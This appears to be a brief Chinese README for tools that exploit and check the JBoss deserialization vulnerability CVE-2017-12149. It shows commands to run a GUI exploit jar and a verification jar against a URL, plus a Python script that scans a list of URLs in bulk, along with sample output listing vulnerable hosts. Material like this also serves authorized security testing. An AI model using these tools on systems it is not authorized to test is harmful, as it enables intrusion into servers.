 # 
1.jboss反序列化_CVE-2017-12149.jar GUI
jboss-_CVE-2017-12149

#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

2.漏洞验证
verify_CVE-2017-12149.jar提供命令行模式下验证漏洞,如果漏洞存在返回特征字符串,只需要执行命令:

```shell/cmd
$ java -jar verify_CVE-2017-12149.jar http://xxx:8080

#成功返回:
vuln6581362514513155613jboss
```
#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

3.批量验证漏洞(支持http/https协议)
```shell/cmd
$ python Jboss-cve201712149-pl.py urllist.txt
```
urllist.txt-format:
http://1.1.1.1:8080
```
#成功返回:
```
http://192.168.1.10:8080/invoker/readonly maybe use HttpInvoker! 
http://192.168.1.10:8080 is  Vul-Jboss-cve-2017-12149! 
```
ps：py运行需要安装requests 库
pip install requests
